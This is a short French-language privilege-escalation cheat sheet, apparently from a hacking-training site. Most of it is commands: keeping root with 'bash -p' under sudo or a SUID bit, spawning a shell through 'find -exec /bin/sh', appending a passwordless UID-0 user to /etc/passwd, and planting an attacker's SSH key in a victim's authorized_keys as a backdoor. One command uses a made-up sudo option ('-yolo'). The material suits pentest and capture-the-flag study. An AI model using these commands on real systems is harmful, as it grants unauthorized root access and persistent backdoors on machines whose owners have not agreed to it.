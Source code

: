 


## Sudo/SUID bit - bash

Lancé par sudo ou avec un SUID bit, bash va dropper ses privilèges. Pour garder l'identifiant root, utiliser l'option -p.
```
sudo -yolo /bin/bash -p
```

```
./bash -p
```








## Sudo/SUID bit - find

Il est possible d'utiliser la commande -exec de find pour ouvrir un shell.   
On recherche n'importe quel fichier, et c'est un prétexte pour lancer la commande /bin/sh.   
Ici avec un sudo, le shell sera ouvert en tant que user2:   
```
sudo -u user /usr/bin/find . -name readme.txt -exec /bin/sh \;
```

Si on trouve la commande find, copiée dans un répertoire avec le SUID bit actif, on l'exploite de la même façon:
```
./find . -name readme.txt -exec /bin/sh \;
```








## Ajouter un user root sans mot de passe

Vous disposez des droits pour modifier /etc/passwd. Par exemple tee avec un sudo en root.
Ajoutez une entrée avec un UID de 0, et un mot de passe vide.
```
echo myroot::0:0:::/bin/bash | sudo tee -a /etc/passwd 
su myroot 
```








## Ajouter une backdoor ssh en injectant une clef publique.

Si une commande avec les droits root permet d'ajouter une ligne: ex: tee
```
echo 'ssh-rsa AAAAB3[...]CHN2CpQ== yolo@yolospacehacker.com' | sudo tee -a /home/victim/.ssh/authorized_keys
ssh -i id_rsa victim@iptarget
```
